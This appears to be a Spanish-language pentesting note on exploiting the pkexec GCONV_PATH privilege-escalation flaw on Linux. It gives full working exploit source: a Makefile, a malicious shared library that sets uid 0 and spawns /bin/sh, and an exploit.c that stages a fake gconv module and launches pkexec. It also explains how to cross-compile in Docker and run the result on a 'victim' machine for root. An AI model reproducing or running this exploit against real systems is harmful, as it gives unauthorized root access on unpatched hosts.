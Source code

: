 Afecta a versiones vulnerables de pkexec, que tiene el SUID activado.
This tool is using SUID-root to run commands as another user, normally the super user (root). However, the flaw arises from the sloppy processing of command line arguments. An out-of-bounds read and write occurs in main() of pkexec, posing this security risk. 

Therefore, by setting environment variables like **GCONV_PATH** malicious code can be executed as the super user.

1. Ver localización del binario `locate pkexec`
2. Ver versión `<ruta>/pkexec --version`
3. Poner en internet la versión pkexec exploit y ver si tiene asociada el CVE aqui descrito
4. Ver os-release de la máquina víctima `cat /etc/os-release`
	Ejemplo de salida:
```os-release
NAME="Ubuntu"
VERSION="20.04.3 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.3 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

Estos tres archivos son necesarios para explotar la vulnerabilidad.
1.  Makefile
```Makefile
all: 
	gcc -shared -o evil.so -fPIC evil-so.c 
	gcc exploit.c -o exploit 
clean: 
	rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

2.  evil-so.c
```c
#include <stdio.h> 
#include <stdlib.h> 
#include <unistd.h> 
void gconv() {} 
void gconv_init() 
{ 
	setuid(0); 
	setgid(0); 
	setgroups(0); 
	execve("/bin/sh", NULL, NULL); 
}
```

3. exploit.c
```c
##### exploit.c ##### 
#include <stdio.h> 
#include <stdlib.h> 
#define BIN "/usr/bin/pkexec" 
#define DIR "evildir" 
#define EVILSO "evil" 
int main() { 
	char *envp[] = { DIR, "PATH=GCONV_PATH=.", "SHELL=ryaagard", "CHARSET=ryaagard", NULL }; 
	char *argv[] = { NULL }; 
	system("mkdir GCONV_PATH=."); 
	system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR); system("mkdir " DIR); 
	system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules"); 
	system("cp " EVILSO ".so " DIR); 
	execve(BIN, argv, envp); 
	return 0; 
}
```

Hay que compilarlos en una máquina con la misma versión de ldd que la víctima (**EN EL CASO DE QUE LA VICTIMA NO TENGA NI MAKE NI GCC**), por ello usamos un contenedor.
1. Colocamos en una carpeta, por ejemplo `work` los 3 archivos descritos arriba, el Makefile, el evil.so.c y el exploit.c.
2. Creamos un contenedor con la versión de la máquina víctima y un volumen en el directorio actual que es donde están los ficheros arriba descritos.
```bash
docker run --rm -it -v "$PWD":/work ubuntu:20.04 bash
```
3. Una vez dentro del contenedor, instalamos las dependencias para usar make y gcc:
```bash
apt-get update
apt-get install -y build-essential
```

4. Entramos en la carpeta dónde se montó el volumen /work y ahí estarán los ficheros.
5. Compilamos con `make all`
6. Comprobamos que están lo binarios `ll`
7. Los transferimos a la máquina víctima y ejecutamos `./exploit`

ENJOY ROOT!